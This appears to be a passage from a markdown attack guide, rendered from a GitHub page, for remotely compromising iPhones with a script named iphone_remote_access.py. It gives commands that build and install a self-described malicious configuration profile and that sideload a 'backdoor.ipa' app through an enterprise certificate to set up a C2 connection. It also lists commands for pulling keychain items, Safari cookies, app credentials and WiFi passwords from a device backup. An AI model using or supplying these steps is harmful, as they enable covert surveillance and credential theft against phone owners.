 ### Method 2: Non-Jailbroken Device (Configuration Profile)

```bash
# Create malicious configuration profile
python3 iphone_remote_access.py --device DEVICE_UDID --method profile

# This generates: system_config_DEVICE_UDID.mobileconfig

# Install profile manually:
# 1. Connect iPhone via USB
# 2. Open Apple Configurator 2
# 3. Select device
# 4. Add > Profiles > Select generated .mobileconfig
# 5. Install profile (requires device unlock)
```

### Method 3: Enterprise App Installation

```bash
# Sign backdoor app with enterprise certificate
# (Requires valid Apple Enterprise Developer account)

# Install enterprise app
python3 iphone_remote_access.py --device DEVICE_UDID --method enterprise --ipa backdoor.ipa

# App will:
# 1. Request extensive permissions
# 2. Install device agent
# 3. Establish C2 connection
# 4. Enable background execution
```

---

## Phase 3: Credential Extraction

### Extract Device Backup

```bash
# Create encrypted backup
idevicebackup2 -u DEVICE_UDID backup /tmp/iphone_backup

# Extract credentials
python3 iphone_remote_access.py --extract-credentials --backup /tmp/iphone_backup

# Extracted data:
# - Keychain items
# - Safari cookies
# - App-specific credentials
# - WiFi passwords
# - Certificates
```
